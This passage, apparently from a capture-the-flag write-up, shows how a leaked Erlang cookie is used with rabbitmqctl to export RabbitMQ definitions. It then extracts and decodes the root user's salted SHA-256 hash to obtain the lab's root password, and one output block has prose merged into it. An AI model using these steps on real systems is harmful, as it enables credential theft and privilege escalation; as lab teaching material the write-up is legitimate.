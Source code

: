 "The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256."

We can export this hash by doing:

```bash
sudo rabbitmqctl --erlang-cookie 'OrBZItrpGHLcMZbP' --node rabbit@forge export_definitions /tmp/definitions.json
```

<img src="file:///home/z/Documents/Rabbit_Store/rabbit_assets/hash_export.png" title="" alt="hash_export" width="680">

```bash
root@ip-10-10-99-111:~/temp# sudo rabbitmqctl --erlang-cookie 'OrBZItrpGHLcMZbP' --node rabbit@forge export_definitions /tmp/definitions.json
Exporting definitions in JSON to a file at "/tmp/definitions.json" ...The hash we are given is in base64 and follows this format:
```

Using this command makes the part we're looking for easy to view:

```bash
cat /tmp/definitions.json | jq '.users[] | select(.name == "root")'
```

This is the redacted output:

```bash
root@ip-10-10-99-111:~/temp# cat /tmp/definitions.json | jq '.users[] | select(.name == "root")'
{
  "hashing_algorithm": "rabbit_password_hashing_sha256",
  "limits": {},
  "name": "root",
  "password_hash": "49e6hSldHRa[...]tGU+YBzWF",
  "tags": [
    "administrator"
  ]
}
```

The structure if the hash is:

`base64(<4 byte salt> + sha256(<4 byte salt> + <password>))`

Convert the base64 hash to hex:

```bash
echo -n '49e6hSldHRa[...]tGU+YBzWF' | base64 -d | xxd -p -c 100
```

We get the result:

`e3d7ba85295d1d16a2617df[...]614811ed194f98073585`

Now we need to remove the 4 byte salt at the beginning.

`e3d7ba85`

`295d1d16a2617df[...]614811ed194f98073585`

We now have the password for the root user!
